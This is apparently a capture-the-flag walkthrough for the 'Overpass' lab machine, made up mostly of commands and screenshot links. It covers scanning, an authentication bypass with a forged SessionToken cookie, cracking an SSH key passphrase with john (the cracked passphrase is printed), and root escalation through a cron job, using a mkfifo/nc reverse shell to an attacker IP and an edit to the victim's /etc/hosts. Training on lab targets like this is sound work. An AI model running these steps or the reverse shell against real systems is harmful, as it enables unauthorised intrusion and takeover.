## 7. Overpass

```
nmap -sC -sV -p- 10.49.147.23
```

```
gobuster dir -u http://10.49.147.23 -w <wordlist>
```

Found pages 



We found /admin page



We found Javascript running



Now if we see, here we see a failure where it sets cookie "SessionToken", Click on add and add a SessionToken



We got our RSA key and the username james

```
subl overpass_rsa
```

```
chmod 600 overpass_rsa
```

```
ssh2john overpass_rsa > file.hash
```

```
john file.hash --wordlist=rockyou.txt
```

Got our passphrase 

```
james13
```




```
ssh -i overpass_rsa james@10.49.160.35
```

We logged in



### Privilege Escalation

```
find / -perm -u=s 2>/dev/null
```

Didn't find something good but we had two files user.txt and todo.txt

```
cat todo.txt
```



Let us run linpeas into it

```
scp -i overpass_rsa  linpeas.sh james@10.49.160.35:/dev/shm
```

```
cd /dev/shm
```

```
./linpeas.sh
```

We found something



The buildscript.sh in downloads/src runs as a root so we will create a directory downloads/src with file buildscript.sh and add a reverse shell in it 

Do this in your machine

```
mkdir downloads
```

```
mkdir downloads/src
```

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.132.222 1234 >/tmp/f" > downloads/src/buildscript.sh
```

We also got a file /etc/hosts

Now in overpass.thm add your ip (inside victim's system)

```
cat /etc/hosts
```

```
nano /etc/hosts
```




Now in my machine, I have to start a python server at port 80 but my apache is already running so

```
sudo systemctl stop apache2
```

```
sudo python3 -m http.server 80
```

Also now run 

```
nc -lvnp 1234
```



We are root now

```
 cd /root
```

```
cat root.txt
```

